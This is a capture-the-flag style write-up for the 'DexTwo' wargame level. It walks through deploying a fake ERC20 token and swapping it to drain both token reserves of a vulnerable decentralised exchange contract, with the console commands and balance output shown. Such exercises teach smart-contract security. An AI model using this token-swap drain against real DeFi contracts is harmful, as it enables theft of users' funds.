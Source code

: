 # Level 23: DexTwo

### Wargame
You need to drain all balances of token1 and token2 from the DexTwo contract to succeed in this level.

### Key Insights
* ERC20 token

### Attack Steps
1. Before launching the attack, display the address of the target contract.
    ```bash
    > instance
    '0x79D2E45b98A6B45F7e7Aa51E7126db2aDF3b60BB'
    ```

2. Deploy DexTwoAttack contract.
* Deploy a DexTwoAttack ERC20 token contract.
* Approve the DexTwo to spend player token.
* Get the address of the DexTwoAttack token contract:
    ```bash
    0x8dff9a33e53C07589A7c9a305bde27181C419116
    ```

3. Execute the Attack.
* Retrieve target tokens:
    ```bash
    > token1 = await contract.token1()
    > token2 = await contract.token2()
    > token3 = '0x8dff9a33e53C07589A7c9a305bde27181C419116'
    ```

* Approve the DexTwo to spend player token.
    ```bash
    > await contract.approve(instance,1000)
    ```

* Use DexTwoAttack token to swap and drain both target tokens.
    ```bash
    > await contract.swap(token3, token1, 100)
    > await contract.swap(token3, token2, 200)
    ```

4. After the swaps, confirm that the DEX reserves are drained.
    ```bash
    > await contract.balanceOf(token1, instance)
    0

    > await contract.balanceOf(token2, instance)
    0

    > await contract.balanceOf(token1, player)
    110

    > await contract.balanceOf(token2, player)
    110

5. Submit the Level.